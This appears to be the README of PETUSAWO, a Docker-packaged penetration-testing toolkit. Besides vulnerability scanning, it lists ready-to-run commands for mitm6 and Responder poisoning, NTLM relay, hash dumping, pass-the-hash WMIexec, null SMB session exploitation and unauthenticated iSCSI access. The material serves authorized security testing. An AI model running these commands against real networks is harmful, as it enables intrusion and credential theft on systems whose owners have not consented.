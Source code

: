 # PETUSAWO

The purpose of the project is to make it easier to perform penetration testing by wrapping
up various important commands into bash scripts
  
## Supported Open Source Applications

- OWASP Zap
- NMAP
- Crackmapexec
- mitm6
  
## Getting Started

### Dependencies

- Docker

### Building the image

To build the image execute the following command at the root of the repo:

```bash
docker-compose build
```

### Executing the docker image

### Before getting started

Throughout this repository, we refer to "list_of_ips". To pass a list of IPs to any command,
create a text file in the directory from which the docker command will be run. Ensure that
you list one IP per line in the textfile, for example.

```
198.1.2.220
198.1.3.221
```

The you can pass the file name as command line argument to the tool.
### ZAP

To run zap against a url, run the following command, replacing the url with the target url.
The results will be outputted to whatever directory you specify.

```bash
docker run --rm -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
zap_vuln_scan https://yourtarget.com/
```

To run Zap against a list of URLs, place the urls in file named urls.txt in the `PWD` with each url
on a new line (the last line must be terminated with a new line). Run:

```bash
docker run --rm -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
zap_vuln_scan your_list.txt
```

### NMAP

Example of running NMAP's vulnerability scan against an IP address:

```bash
docker run --rm -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
nmap_vuln_scan 000.00.000.000
```

To run NMAP's vulnerability scan against a list of ip addresses, place
the list in a file named ips.txt in the `PWD` with each IP address on a new line
(the last line must be terminated with a new line).
Run:

```bash
docker run --rm -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
nmap_vuln_scan your_list.txt
```

### General WEB Application Scans

All web application scans can be run through an optional proxy server such as burpsuite.
If no proxy is being used, the option can be ignored.

```bash
docker run --rm -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
run_web_app_tests target_ip_address_or_list_of_ips optional_proxy_address
```

### Check for IPV6 traffic

```bash
screen -S tshark -d -m docker run -it --rm --network host -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
check_for_ipv6_traffic network_interface to listen on
```

You can interact with the above screen with the command:
```
screen -r tshark
```
### Checking if SMB signing is not required

```bash
docker run --rm -it -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest check_if_smb_signing_is_required smb_targets.txt
```

### Exploit SMB signing not required via DNS6 poisoning and NTLM relay.

If Ipv6 is not being actively managed by a DNS and DHCP server and IPv6 packets are flowing then we can likely
compromise this network by setting up a DNS server and DHCP server for IPv6. It is worth noting that according to [RFC3484](https://www.ietf.org/rfc/rfc3484.txt)

IPv6 will be preferred over IPv4 which means that once IPv6 is being managed, nodes on the network will send packets via IPv6 as
opposed to IPV4.

By default, windows hosts will send a DHCP discovery packet to try to discover DHCP servers and we will take advantage of this by responding using 
mitm6

```bash
screen -S mitm6 -d -m  docker run --rm -it --network host -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
start_mitm6 local_network_interface target_domain_name
```

You can interact with the above screen with the command:
```
screen -r mitm6
```

```bash
screen -S ipv6_relay -d -m  docker run --rm -it --network host -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
start_nltm_relay_ipv6 target_ip_address_or_list_of_ips
```

You can interact with the above screen with the command:

```
screen -r ipv6_relay
```

You can check if SMB sessions have been created successfully by resuming the `relay_ipv6`
screen and running the `socks` command

If SMB sessions have been created, you can perform a number of actions going forward using proxychains:


- Dumping hashes

The domain/account used in the command below can be retrieved by resuming the `relay_ipv6` screen (see above) and
running the `socks` command

    ```bash
    docker run --rm -it --network host -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest dump_creds DOMAIN/Account@x.x.x.x
    ```

- List SMB shares

```bash
    docker run --rm -it --network host -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest list_smb_shares ip_address_of_target DOMAIN\\Account
```

- Accessing SMB shares

```bash
    docker run --rm -it --network host -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest access_smb \\\\ip_address_of_target\\c$ DOMAIN\\Account
```
- Passing hashes for a WMIexec session

NOTE: username must be in lowercase

```bash

docker run --rm -it --network host -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest pass_hashes_wmi_exec hashes username@x.x.x.x
```


### Exploit SMB signing not required via DNS poisoning and NTLM relay.

```bash

screen -S responder -d -m  docker run --rm -it --network host -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
start_responder local_network_interface
```

You can interact with the above screen with the command:
```
screen -r responder
```

```bash
screen -S ipv4_relay -d -m  docker run --rm -it --network host -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
start_nltm_relay_ipv4 target_ip_address_or_list_of_ips
```

You can interact with the above screen with the command:

```
screen -r ipv4_relay
```

### Checking for and exploit null SMB Sessions

```bash
docker run -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
check_and_exploit_null_smb_sessions target_ip_address_or_list_of_ips
```

### List ISCSI targets

```bash
docker run -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
list_iscsi_targets target_ip_address_or_list_of_target_ips
```

### Connect to ISCSI targets without authentication

```bash
docker run -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
test_unauthenticated_iscsi_sessions target_ip_address_or_list_of_target_ips iscsi_target
```

### Utilities

Resolve IPs to FQDNS

```bash
docker run -v "$(pwd)":/RESULTS berryliumsec/petusawo:latest \
resolve_fqdn target_ip_address_or_list_of_target_ips 
```

Assume role with MFA

```bash
./assume_role_with_mfa arn:aws:iam::XXXXXXX:role/assume_role_test arn:aws:iam::xxxxxxx:mfa/xxxx 0000(your_mfa_code)
```
### Output Files

All log files will be placed in the directory from which you run the docker container.
